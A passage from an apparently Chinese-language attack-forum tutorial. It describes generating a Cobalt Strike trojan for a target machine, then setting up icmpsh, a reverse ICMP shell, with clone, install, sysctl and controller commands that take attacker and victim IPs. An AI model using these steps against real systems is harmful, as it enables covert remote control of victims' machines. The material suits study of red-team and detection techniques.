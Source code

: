 ![092](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e6aa9556b9a0e8c846924baaa798138fbeb10dbf.jpg)

对spp-127的监听生成木马ch4nge3.exe，传到靶机运行

**CS监听上线**

![093](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7d18d4ba737f17250f79a191488b745bed553482.jpg)

V/PS回显

![094](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3f115edddc41a63f27997ffcdc22b60ee9d42363.jpg)

**wireshark捕获数据**

![095](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f10157c738e6fb1ec6de20a3865cc0c807415d09.jpg)

六、icmpsh反弹shell
---------------

### 0 icmpsh简介

icmpsh 是一个简单的反向 ICMP shell，带有一个 win32 从站和一个 C、Perl 或 Python 中的 POSIX 兼容主站。与其他类似的开源工具相比，它的主要优势在于它不需要管理权限即可在目标机器上运行。

该工具干净、简单且便携。该目标Windows机器上从（客户端）运行，它是用C写的，在Windows受害者机器上运行服务器端，在攻击者机器上的任何平台上运行服务端。

### 1 下载地址

```php
https://github.com/bdamele/icmpsh
```

### 2 工具安装

**如果遇到报错，请看下面的报错解决方法**

```php
#下载工具
git clone https://github.com/inquisb/icmpsh.git
#安装依赖
apt-get install python-impacket
#关闭本地ICMP应答
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

### 3 V/PS-kali运行icmpsh的控制端

```php
python icmpsh_m.py v/ps-ip attack-ip

python icmpsh_m.py 192.168.3.76 192.168.3.88
```

![096](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e6cbec9bb07b9adf9ba406f8b4b9ca9d370afffa.jpg)
